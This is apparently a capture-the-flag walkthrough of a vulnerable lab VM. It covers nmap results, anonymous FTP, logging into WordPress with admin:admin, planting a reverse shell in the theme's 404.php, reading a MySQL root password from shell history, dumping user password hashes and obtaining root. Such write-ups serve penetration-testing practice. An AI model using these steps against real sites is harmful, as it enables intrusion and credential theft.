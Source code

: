 

# NMAP

```bash
PORT   STATE SERVICE REASON  VERSION

21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.97
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKrYYWK3Xv2EBb0KryPAargHdeVdVuGj+AHTUbH1CyLIuQ3zbtaq2+lr5K/aMqiJ5othz27+RWSJ2NmQ2JeOUBCogFLikCwU6MRDQLHpV+neS3fAKrH5fNnXo+RfnMWBLQaaXBPiUOQaoQc27hRN3SJ1hbVLEF65TY0siTrOj0Lt8SRztwkbfynHEKxMsQi5WWDLTgS7bivCf9VVWwqgmuBbsJAqFExDjLxlxJpH4+93bgEtD9EPV/KKO9B3Inaz8PxC+zXZofhZXloysYoGg4IZzT55JzrRVRuv/cbGcMuGTBpCCkdH01G4NCSgL7YwX13C1Qc+EFX1QExV6k1ePD
|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFTsqff4O0hsl+RUR2lXFcbCEkvFcspHALA2RR2DpoD2AlRN/DEpIbW3NETNXxxyKHTtGhUiBSUuw8S9RSBAsnY=
|   256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH91w++CdkbeAkmXYietVhD/73nEaXR/nbeBEyuwLwgq

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# FTP 

--> Anonymous login allowed

![image](https://user-images.githubusercontent.com/68326057/117525095-72e2d180-afde-11eb-9874-b0096b00a1da.png)


# WEB

## /robots.txt

--> /wordpress

## /upload

![image](https://user-images.githubusercontent.com/68326057/117525252-f8668180-afde-11eb-99b6-85c6210242d0.png)

# /wordpress

--> admin:admin

![image](https://user-images.githubusercontent.com/68326057/117525406-c3a6fa00-afdf-11eb-9982-b5be7b86f102.png)

![image](https://user-images.githubusercontent.com/68326057/117525410-cbff3500-afdf-11eb-81f5-61a4c01719c2.png)


--> apperance --> editor.
-->select twentyfourteen --> 404 template.
--> paste ur reverse shell. 
--> press update

![image](https://user-images.githubusercontent.com/68326057/117525491-2f896280-afe0-11eb-89a6-5878cbeb4cdc.png)

![image](https://user-images.githubusercontent.com/68326057/117526100-7b3c0c00-afe0-11eb-89c5-a3d9c6674bc1.png)

--> http://192.168.97.50/wordpress/wp-content/themes/twentyfourteen/404.php

# USER - WWW-DATA

![image](https://user-images.githubusercontent.com/68326057/117526108-8727ce00-afe0-11eb-9102-4c94658c05bc.png)


![image](https://user-images.githubusercontent.com/68326057/117526139-b9393000-afe0-11eb-900c-82f384d6a7dd.png)

![image](https://user-images.githubusercontent.com/68326057/117526163-e1c12a00-afe0-11eb-9977-7fb14e962cbb.png)


HISTORY

![image](https://user-images.githubusercontent.com/68326057/117526178-03baac80-afe1-11eb-9ff0-eb954939d7da.png)

```bash
mysql -uroot -prootpassword!

```


```bash

www-data@ubuntu:/var/www$ mysql -u root -p -D wordpress -e 'SELECT * FROM wp_users;' -p
               
Enter password: rootpassword!   

+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | a318e4507e5a74604aafb45e4741edd3 | btrisk        | mdemir@btrisk.com |          | 2017-04-24 17:37:04 |                     |           0 | btrisk       |
|  2 | admin      | 21232f297a57a5a743894a0e4a801fc3 | admin         | ikaya@btrisk.com  |          | 2017-04-24 17:37:04 |                     |           4 | admin        |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+------------

```

![image](https://user-images.githubusercontent.com/68326057/117526254-8b082000-afe1-11eb-8a6a-fca07c606262.png)


```bash
root : roottoor
```

# ROOT

![image](https://user-images.githubusercontent.com/68326057/117526266-b12dc000-afe1-11eb-8d63-673eba856d86.png)

